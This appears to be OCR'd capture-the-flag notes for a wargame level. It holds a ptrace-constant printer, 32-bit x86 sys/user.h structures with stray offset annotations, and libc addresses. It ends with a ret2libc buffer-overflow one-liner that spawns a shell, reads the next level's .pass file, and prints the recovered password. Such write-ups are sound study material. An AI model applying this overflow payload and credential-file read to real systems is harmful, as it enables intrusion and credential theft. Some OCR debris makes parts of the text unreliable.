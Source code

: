 #include <sys/ptrace.h>
#include <stdio.h>

int main (void)
{
    printf("PTRACE_TRACEME : %d\n", PTRACE_TRACEME);
    printf("PTRACE_PEEKTEXT : %d\n", PTRACE_PEEKTEXT);
    printf("PTRACE_PEEKDATA : %d\n", PTRACE_PEEKDATA);
    printf("PTRACE_PEEKUSER : %d\n", PTRACE_PEEKUSER);
    printf("PTRACE_POKETEXT : %d\n", PTRACE_POKETEXT);
    printf("PTRACE_POKEDATA : %d\n", PTRACE_POKEDATA);
    printf("PTRACE_POKEUSER : %d\n", PTRACE_POKEUSER);
    printf("PTRACE_GETREGS : %d\n", PTRACE_GETREGS);
    printf("PTRACE_GETFPREGS : %d\n", PTRACE_GETFPREGS);
    printf("PTRACE_GETSIGINFO : %d\n", PTRACE_GETSIGINFO);
    printf("PTRACE_SETREGS : %d\n", PTRACE_SETREGS);
    printf("PTRACE_SETFPREGS : %d\n", PTRACE_SETFPREGS);
    printf("PTRACE_SETSIGINFO : %d\n", PTRACE_SETSIGINFO);
}i r



/* These are the 32-bit x86 structures.  */
struct user_fpregs_struct
{
  long int cwd;
  long int swd;
  long int twd;
  long int fip;
  long int fcs;
  long int foo;
  long int fos;
  long int st_space [20];
};

struct user_fpxregs_struct
{
  unsigned short int cwd;
  unsigned short int swd;
  unsigned short int twd;
  unsigned short int fop;
  long int fip;
  long int fcs;
  long int foo;
  long int fos;
  long int mxcsr;
  long int reserved;
  long int st_space[32];   /* 8*16 bytes for each FP-reg = 128 bytes */
  long int xmm_space[32];  /* 8*16 bytes for each XMM-reg = 128 bytes */
  long int padding[56];
};

struct user_regs_struct
{
  long int ebx; 0
  long int ecx; 4 
  long int edx; 8
  long int esi; 
  long int edi; 16
  long int ebp;
  long int eax; 24
  long int xds;
  long int xes; 32
  long int xfs;
  long int xgs; 40
  long int orig_eax; user+44
  long int eip;
  long int xcs;
  long int eflags;
  long int esp;
  long int xss;
};

struct user
{
  struct user_regs_struct       regs;
  int                           u_fpvalid;
  struct user_fpregs_struct     i387;
  unsigned long int             u_tsize;
  unsigned long int             u_dsize;
  unsigned long int             u_ssize;
  unsigned long int             start_code;
  unsigned long int             start_stack;
  long int                      signal;
  int                           reserved;
  struct user_regs_struct*      u_ar0;
  struct user_fpregs_struct*    u_fpstate;
  unsigned long int             magic;
  char                          u_comm [32];
  int                           u_debugreg [8];
};
#endif  /* __WORDSIZE */

#define PAGE_SIZE               (sysconf(_SC_PAGESIZE))
#define PAGE_MASK               (~(PAGE_SIZE-1))
#define NBPG                    PAGE_SIZE
#define UPAGES                  1
#define HOST_TEXT_START_ADDR    (u.start_code)
#define HOST_STACK_END_ADDR     (u.start_stack + u.u_ssize * NBPG)

#endif  /* _SYS_USER_H */









system   0xf7e6aed0
/bin/sh  0xf7f897ec


( python -c 'print("A" * 156 + "\xd0\xae\xe6\xf7" + "OSEF" + "\xec\x97\xf8\xf7")' ; echo "cat /home/users/level05/.pass" ) | ./level04

3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN